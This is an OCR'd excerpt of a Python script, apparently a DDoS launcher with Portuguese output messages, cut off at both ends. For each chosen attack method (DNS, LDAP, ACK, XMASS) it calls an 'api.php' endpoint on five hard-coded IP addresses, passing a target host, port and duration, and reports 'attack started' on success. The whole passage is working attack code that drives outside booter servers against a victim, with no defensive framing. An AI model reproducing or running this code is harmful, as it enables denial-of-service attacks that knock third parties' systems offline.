 ```
               print (f"[+] ATACK INICIADO EM: {host}")
       else:
            print ("[!] ERROR")
            exit()

elif esc == "2":
     esc = "DNS"
     
     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:

         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)
	 
         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

elif esc == "3":
     esc = "LDAP"

     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)
 
         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()

elif esc == "4":
     esc = "ACK"
     
     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:
         atk = ("http://"+x+"/"+api)
         r = requests.get(atk, headers=headers)

         if "Attack Launch On" in r.text:
            while True:
                print (f"[+] ATACK INICIADO EM: {host}")
         else:
              print ("[!] ERROR")
              exit()
elif esc == "5":
     esc = "XMASS"
     
     api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
     ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

     for x in ips:
```
